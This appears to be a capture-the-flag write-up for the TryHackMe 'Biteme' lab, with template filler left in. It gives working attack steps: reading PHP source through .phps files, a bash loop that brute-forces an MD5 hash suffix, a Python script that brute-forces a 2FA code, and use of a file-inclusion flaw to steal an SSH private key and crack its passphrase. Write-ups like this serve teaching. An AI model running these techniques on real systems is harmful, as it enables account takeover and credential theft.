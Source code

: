 # Biteme: 

![Contest Date: 12.03.2022](https://img.shields.io/badge/Contest%20Date-12.10.2022-lightgrey.svg)
## Description

Tryhackme Medium Dificulty Room


## Attached Files

- Lorem ipsum

## Summary

The initial scan shows 2 ports opened: 22,80.
The web server has an 'console' endpoint which is a login page ( which is protected with secureimage for bruteforcing ). 
Looking for the source this caught my attention:

```javascript

 function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }

```

The message can be understood as it is, but it can also be unpacked to be more readable.

Which can be unpacked using <a href="https://matthewfl.com/unPacker.html">Unpacker</a> to :

```javascript

 function handleSubmit() 
	{
	        eval(function(p,a,c,k,e,r)
		{
		e=function(c)
			{
			return c.toString(a)
		};
		if(!''.replace(/^/,String))
			{
			while(c--)r[e(c)]=k[c]||e(c);
			k=[function(e)
				{
				return r[e]
			}
			];
			e=function()
				{
				return'\\w+'
			};
			c=1
		};
		while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
		return p
	}
	('0.1(\'2\').3=\'4\';
	5.6(\'@7 8 9 a b c d e f g h i... j\');
	',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,
		{
	}
	))
	        return true;
	      
}
```


Anyway, the function can also be called in the console of the page, and it logs the message : 

```
@fred I turned on php file syntax highlighting for you to review... jason
```

Which made me search for <a href="https://www.php.net/manual/en/function.highlight-file.php">highlight_file</a> and found this:

```

Many servers are configured to automatically highlight files with a phps extension. For example, example.phps when viewed will show the syntax highlighted source of the file.

```

Using this we can read the source code of the page by going to `http://<ip>/console/index.phps`

This file includes `functions.php` which is used for authentication and can also be read using the same trick `(functions.phps)`.

This file reveals that the hash used for comparison should end in `001` and used a bash command to bruteforce it.

```bash
while IFS= read -r line; do printf '%s' "$line" |md5sum | awk '{print $1}' | grep -E "001$" && echo $line && break ; done < /usr/share/wordlists/rockyou.txt
```
Now we just need a user.

This again reveals other file , `config.php` , which has the source code also readable , and we find the user encoded in hex.

We decode it and get creds to log in.

After logging in, we now need to brute-force the 2FA code, as we see we have unlimited tries.
Created my script for it:
```python3

import requests

s = requests.Session()

cookies = {'PHPSESSID': '<cookie>','user':'<decoded_user>','pwd':'<found_pass>'}
s.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})


for i in range(9999,5000,-1):
        a = '{:d}'.format(i).zfill(4)
        print(a,end='\r')
        r = s.post('http://<ip>/console/mfa.php',cookies=cookies,data='code={}'.format(a))
        if 'Incorrect code' not in r.text:
                #print(r.text)
                print('[+] Found the code: {}'.format(a))
                break

```

After getting a valid code, we now have lfi, using this to get the /ssh/id_rsa file of jason user which has a passphrase.
Using ss2john, and then using john with rockyou.txt we get the passphrase.





## Flag

```

```

## Detailed Solution

Lorem ipsum
